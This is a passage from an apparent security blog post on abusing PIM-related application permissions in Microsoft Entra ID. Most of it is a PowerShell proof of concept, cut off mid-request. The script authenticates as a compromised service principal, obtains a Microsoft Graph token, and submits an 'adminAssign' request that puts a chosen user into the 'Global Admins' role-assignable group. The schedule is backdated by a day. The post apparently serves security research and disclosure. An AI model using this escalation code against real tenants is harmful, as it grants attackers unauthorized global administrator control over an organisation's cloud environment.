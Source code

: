 [![](/assets/images/blog/2024-07-25-abusing-pim-related-application-permissions-part-1/10_screenshot.png)](/assets/images/blog/2024-07-25-abusing-pim-related-application-permissions-part-1/10_screenshot.png)

The PowerShell code to leverage the compromised “Harmless app” and assign our “Harmless user account” to the “Global Admins” group is as follows:

```
## Set SP info
$tid = ''
$appId = ''
$password = ''

# Set user info
$userId = ''

# Set targeted group info
$groupId = ''


# Acquire MS Graph access token
$securePassword = ConvertTo-SecureString -String $password -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $appId, $securePassword
Connect-AzAccount -ServicePrincipal -TenantId $tid -Credential $credential
$token = (Get-AzAccessToken -ResourceTypeName MSGraph).Token

# Request membership update of role-assignable group (membership is set to last 24 hours)
$oid = (Get-AzADServicePrincipal -ApplicationId $appid).Id
$yesterday = (get-date).AddDays(-1).ToString("yyyy-MM-ddTHH:mm:ss.000Z")

$uri = 'https://graph.microsoft.com/beta/identityGovernance/privilegedAccess/group/assignmentScheduleRequests'
$headers = @{
    'Authorization'= "Bearer $token"
    'Content-Type' = 'application/json'
}

$activeAssignment = @{
    action = 'adminAssign'
    justification = 'PoC'
    accessId = 'member'
    groupId = $groupId
    principalId = $userId
    scheduleInfo = @{
        startDateTime = $yesterday
        expiration = @{
```